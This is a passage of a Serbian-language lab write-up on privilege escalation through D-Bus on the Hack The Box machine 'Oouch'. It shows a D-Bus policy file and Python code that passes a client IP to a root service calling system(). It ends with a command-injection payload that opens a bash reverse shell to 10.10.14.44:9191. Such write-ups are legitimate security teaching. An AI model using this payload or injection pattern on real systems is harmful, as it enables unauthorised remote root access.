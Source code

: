 Vidi [D-Bus dokumentaciju](http://dbus.freedesktop.org/doc/dbus-specification.html) za više informacija o sintaksi pravila za podudaranje.

### Više

`busctl` ima još više opcija, [**pronađi ih sve ovde**](https://www.freedesktop.org/software/systemd/man/busctl.html).

## **Ranjivi scenario**

Kao korisnik **qtc unutar hosta "oouch" sa HTB-a**, možeš pronaći **neočekivani D-Bus konfiguracioni fajl** koji se nalazi u _/etc/dbus-1/system.d/htb.oouch.Block.conf_:

```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- -*- XML -*- -->

<!DOCTYPE busconfig PUBLIC
"-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
"http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">

<busconfig>

<policy user="root">
<allow own="htb.oouch.Block"/>
</policy>

<policy user="www-data">
<allow send_destination="htb.oouch.Block"/>
<allow receive_sender="htb.oouch.Block"/>
</policy>

</busconfig>
```

Napomena iz prethodne konfiguracije je da **će vam biti potrebno da budete korisnik `root` ili `www-data` da biste slali i primili informacije** putem ove D-BUS komunikacije.

Kao korisnik **qtc** unutar docker kontejnera **aeb4525789d8**, možete pronaći neki dbus povezani kod u datoteci _/code/oouch/routes.py._ Ovo je interesantan kod:

```python
if primitive_xss.search(form.textfield.data):
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
response = block_iface.Block(client_ip)
bus.close()
return render_template('hacker.html', title='Hacker')
```

Kao što možete videti, **povezuje se sa D-Bus interfejsom** i šalje "client\_ip" funkciji "Block".

Na drugoj strani D-Bus veze se nalazi neki C kompajlirani binarni fajl koji se izvršava. Ovaj kod **sluša** D-Bus vezu **za IP adresu i poziva iptables putem `system` funkcije** da blokira datu IP adresu.\
**Poziv `system` funkcije je namerno ranjiv na komandnu injekciju**, tako da će payload poput sledećeg kreirati reverzni shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`
